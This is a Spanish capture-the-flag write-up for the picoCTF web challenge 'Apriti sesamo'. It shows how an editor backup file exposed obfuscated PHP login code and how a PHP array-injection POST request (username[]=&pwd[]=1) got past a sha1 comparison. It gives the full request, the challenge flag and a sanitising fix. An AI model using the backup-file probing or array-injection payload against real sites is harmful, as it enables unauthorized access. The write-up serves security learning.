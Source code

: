 ```yaml
---
title: Apriti sesamo
date: 2025-07-24 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web, sql injection]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Apriti sesamo
Author: Junias Bonou
Description
I found a web app that claims to be impossible to hack! Try it here!
{: .prompt-tip }

Entras al sitio web indicado y te encuentras un formulario 

``` html
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               

Username:

Password:

```

Después de un buen rato testeando si podía haber algún tipo de sqli, comencé a pensar en otro tipo de inyección. En las pistas hablan de un backup, y de que el autor le gusta emacs...
Tarde un rato en caer en lo que querían estas pistas, los archivos de backup de muchos editores en GNU/Linux se llaman igual que el original seguido del símbolo **~**

Así que cambio  http://verbal-sleep.picoctf.net:49414/impossibleLogin.php por
http://verbal-sleep.picoctf.net:49414/impossibleLogin.php~

El archivo parece le mismo pero el pie del documento hay una diferencia a investigar
``` html
<!DOCTYPE html>
<html>
<head>
    <title>Login Page</title>
</head>
<body style="text-align:center;">
    <pre>
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               


    </pre>
    <br/>
    <form action="impossibleLogin.php" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br>
        <label for="pwd">Password:</label><br>
        <input type="password" id="pwd" name="pwd"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>

<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>

``` 

Uso una herramienta online para poner más entendible el código PHP, está me sirvió perfectamente
[https://codebeautify.org/php-beautifier#](https://codebeautify.org/php-beautifier#)
``` php
<?php
if (
    isset(
        $_POST[
            base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")
        ]
    ) &&
    isset($_POST[base64_decode("\143\x48\x64\x6b")])
) {
    $yuf85e0677 =
        $_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
    $rs35c246d5 = $_POST[base64_decode("\143\x48\144\153")];
    if ($yuf85e0677 == $rs35c246d5) {
        echo base64_decode(
            "\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d"
        );
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents(
                base64_decode(
                    "\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"
                )
            );
        } else {
            echo base64_decode(
                "\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75"
            );
        }
    }
} ?>
```
Ahora que puedo leer el código podemos destriparlo por partes y sacar todas las cadenas que contiene
``` php 
<?php
echo base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")."\n";
echo base64_decode("\143\x48\x64\x6b")."\n";
echo base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")."\n";
echo base64_decode("\143\x48\144\153")."\n";
echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d")."\n";
echo base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75")."\n";
echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75")."\n";
?>
```

Pruebo el script que he creado para ver las cadenas descodificadas.

``` shell
pablo☠office Apriti-sesamo$ php test.php
username
pwd
username
pwd
<br/>Failed! No flag for you
../flag.txt
<br/>Failed! No flag for you
```

En algunos casos las cadenas cons las mismas solo varía la codificación y se repiten una vez descodificadas, la información relevante está en el propio código, especialmente esta parte
``` php 
    $yuf85e0677 =
        $_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
    $rs35c246d5 = $_POST[base64_decode("\143\x48\144\153")];
    if ($yuf85e0677 == $rs35c246d5) {
        echo base64_decode(
            "\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d"
        );
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents(
                base64_decode(
                    "\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"
                )
            );
```
la variable **yuf85e0677** y la variable **rs35c246d5** llegan por POST, si son iguales tendrás el mensaje "<br/>Failed! No flag for you" , sin embargo si el sha1 de ambas palabras son iguales === entonces nos devuelve el contenido de flag.txt. Habíamos visto un reto donde se basaba en parte en los PDFs cuyo SHA1, colisionaba, pero esto son palabras no son archivos, encontrar una colisión de SHA-1 no debe ser posible, tiene que haber otra manera. Busco unas ideas y finalmente encuento algo que parece funcionar **PHP Array Injection**

```
POST http://verbal-sleep.picoctf.net:49414/impossibleLogin.php HTTP/1.1
host: verbal-sleep.picoctf.net:49414
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
content-length: 19
Origin: http://verbal-sleep.picoctf.net:49414
Connection: keep-alive
Referer: http://verbal-sleep.picoctf.net:49414/impossibleLogin.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username[]=&pwd[]=1
```
La idea es truncar la lógica de la función sha1 aprovechando que no hay una sanitización de las variable una vez se lee el post. 

``` html
<b>Warning</b>:  sha1() expects parameter 1 to be string, array given in <b>/var/www/html/impossibleLogin.php</b> on line <b>38</b><br />
<br />
<b>Warning</b>:  sha1() expects parameter 1 to be string, array given in <b>/var/www/html/impossibleLogin.php</b> on line <b>38</b><br />
picoCTF{w3Ll_d3sErV3d_Ch4mp_d543c99c}
```
Engañando la lógica de PHP, la función **sha1** de esta versión de PHP se trunca cuando se le envía un objeto Array, de forma que la misma devuelve Null, así que devolvió null para ambos hashes, lo que hizo que la condición null === null fuera verdadera.

flag: **picoCTF{w3Ll_d3sErV3d_Ch4mp_d543c99c}**

Esto se hubiera solucionado, sanitizando las entradas del formulario y solo aceptando strings
``` php
if(
    isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")]) &&
    is_string($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")]) &&

    isset($_POST[base64_decode("\143\x48\x64\x6b")]) &&
    is_string($_POST[base64_decode("\143\x48\x64\x6b")])
){.....
```